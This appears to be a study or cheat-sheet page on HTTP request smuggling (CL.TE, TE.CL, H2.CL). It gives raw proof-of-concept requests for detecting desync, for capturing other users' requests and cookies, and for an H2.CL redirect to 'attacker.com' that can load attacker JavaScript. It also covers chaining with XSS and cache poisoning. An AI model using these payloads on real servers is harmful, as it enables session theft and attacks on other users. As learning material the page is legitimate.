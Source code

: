 # HTTP Request Smuggling

## Harmless -> Exploitable
### On-Site Redirect -> Open Redirect
Many applications perform on-site redirects from one URL to another and place the hostname from the request's Host header into the redirect URL. An example of this is the default behavior of Apache and IIS web servers, where a request for a folder without a trailing slash receives a redirect to the same folder including the trailing slash. This behavior is normally considered harmless, but it can be exploited in a request smuggling attack to redirect other users to an external domain. Example [PoC](#h2cl--on-site-redirect)

# HTTP/1.1
Requests first go through a load balancer/reverse proxy/front end, and then get sent to a back end server. If there are inconsistencies between the calculation of the length of the requests, it allows for HTTP request smuggling.

![Request smuggling schematic](../images/Request_smuggling.png)

Most HTTP request smuggling vulnerabilities arise because the HTTP/1 specification provides two different ways to specify where a request ends: the `Content-Length` header and the `Transfer-Encoding` header. Sometimes, front-end and back-end prioritize or don't support one or the other. This can cause the vulnerability.

With `Transfer-Encoding: chunked`, each chunk of data looks like this:
```
| size (Bytes in hex) | newline | data |
```
The message is terminated with a chunk of size zero, so something like this `0\r\n\r\n`.

> HTTP/2 is kinda immune to ambigious request length

## Exploitation

### Front-End Headers
Most likely, the front end will add some extra headers to the request it gets to forward some extra information like ids, encryption method, user ip, etc. to the back-end. But when you smuggle a basic HTTP request, it does not have these headers when it arrives at the back-end. So this might cause it to be handled differently and fail. 

To find out how a back-end request looks like, just smuggle a `POST` request that reflects (or stores) input it gets. Now when you send another normal request, it gets parsed by the front-end, and then used as input in the smuggled request. The smuggled request reflects its input (the parsed normal request), so you can see what headers the front-end adds. This also works with capturing requests from other users and capturing their session cookies and stuff (only if data is stored). [PoC](#get-full-request--clte)

### Combine with XSS
If there is some reflected xss vulnerability, you can combine it with request smuggling. This makes it so that the victim does not have to interact with a sketchy link you send them, and the attacker can control headers that normally cannot be trivially controlled.

### Web Cache
You can use HTTP request smuggling to do web cache poisening or web cache deception. This is so cool like fr. Set up a payload in a way that the front-end server sees it as a static cachable file, and the back-end sees it as a malicious or sensitive file. Now the back-end will send the malicious/sensitive file to the front-end, this server caches the response. So the attacker succesfully poisened/decepted the cache. It might be tedious to have the victim send the right request at the right time to the right front-end server. But when you have a proof of concept, it is easy for an attacker to automate this process using scripting.

## Proof of Concepts
Proof of concepts can differ very much depending on the target server, and the goal of the hack. It requires some creativity and understanding of how things work to forge a nice payload.

### CL.TE | Test
This HTTP request will cause time delay, if vulnerability is present
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

1
a
0


```

### TE.CL | Test
This HTTP request will cause time delay, if vulnerability is present
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-length: 6
Transfer-Encoding: chunked

0

X
```

### Get Full Request | CL.TE
Reflect/store the request and extra headers given by the front-end into the response of the smuggled request.
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 132
Transfer-Encoding: chunked

0

POST /reflect HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=
```

# HTTP/2
Some amazing research on HTTP/2 vulnerabilities [here](https://portswigger.net/research/http2) by James Kettle, definitely recommended to read (~35 minutes). 

## HTTP/2 Downgrading Vulnerabilities
Most of the HTTP/2 vulnerabilities happen because of HTTP/2 downgrading to HTTP/1.1 to the back-end. The front-end server converts the received request to a valid HTTP/1.1 request for the back-end. This is widely used, but can cause vulnerabilities if not correctly implemented with the right precautions.

### H2.CL
When the front-end blindly uses the received `Content-Length` header in the converted HTTP/1.1 request. Because this header is not used in HTTP/2. Look at this example [PoC](#h2cl--on-site-redirect) using an on-site redirect as an open redirect.


## Proof of Concepts

### H2.CL | On-Site Redirect
This makes use of the feature that a request to `/resources` gets redirected to `<Host>/resources/` ([on-site redirect](#on-site-redirect)). So the next request that gets sent will receive `attacker.com/resources/` as its response. Can cause arbitrary javascript execution if that next request is for a (trusted) javascript file.
```
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

GET /resources HTTP/1.1
Host: attacker.com
Content-Length: 10

x=x
```